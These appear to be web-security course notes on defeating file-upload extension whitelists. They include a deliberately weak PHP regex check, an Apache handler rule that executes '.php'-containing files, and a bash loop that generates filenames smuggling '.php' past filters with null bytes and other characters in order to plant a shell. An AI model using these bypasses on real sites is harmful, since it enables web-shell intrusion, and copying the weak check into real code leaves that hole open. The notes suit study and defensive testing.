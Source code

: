 #### 

#### File Upload Attacks

### Whitelist Filters

# Whitelisting Extensions

```php
$fileName = basename($_FILES["uploadFile"]["name"]);

if (!preg_match('^.*\.(jpg|jpeg|png|gif)', $fileName)) {
    echo "Only images are allowed";
    die();
}
```

## Double Extensions

```php
if (!preg_match('/^.*\.(jpg|jpeg|png|gif)$/', $fileName)) { ...SNIP... }
```

## Reverse Double Extension

```xml
<FilesMatch ".+\.ph(ar|p|tml)">
    SetHandler application/x-httpd-php
</FilesMatch>
```

## Character Injection

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

# 

# 

### Questions

